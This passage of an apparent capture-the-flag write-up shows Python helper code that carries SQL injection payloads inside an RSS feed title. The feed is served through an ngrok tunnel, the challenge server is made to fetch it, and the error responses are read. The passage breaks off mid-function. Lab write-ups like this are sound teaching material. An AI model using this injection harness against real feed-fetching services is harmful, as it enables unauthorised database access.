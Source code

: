 ![Automate escape](./images/automate-escape.png)

Now, we can set up our python script to directly query the challenge server intead of us filling in the form each time.

### Challenge Server Interaction Helper

_By the way, our ngrok and `server.py` are still running._

We want to make a helper function that will prepare a URL with a special search parameter `/?title=<title_text>` and then submit that URL to the challenge server. The challenge server then loads the feed from our local weberver, which uses the parameter from earlier to customise the text inside `<title>` of the feed. On loading the customised XML file, the challenge server may then run a SQL injection that was contained inside the `<title>` text and send different error codes back to our script here.


```python
import time # For delay
import urllib # For URL encoding any special characters in the query string
import requests # For making HTTP requests to the challenge server
from bs4 import BeautifulSoup # For extracting the error message in the HTML response
```


```python
challenge_url = 'http://yhi8bpzolrog3yw17fe0wlwrnwllnhic.alttablabs.sg:41041/feed'
feed_url = 'http://261da9601892.ngrok.io/'
```


```python
def query_challenge(title='Feed Title'):
    # Prevent ngrok rate limit
    time.sleep(1)
    
    # Generate the URL to be submitted to the challenge server
    full_url = feed_url + '?' + urllib.parse.urlencode({
        'title': title
    })
    
    # Query the challenge server
    res = requests.post(
        challenge_url,
        data={
            'url': full_url
        }
    )
    
    if 'text/html' in res.headers['Content-Type']:
        # Query returned 0 rows -> "no new feeds allowed" error
        
        # Find the exact error message using bs4
```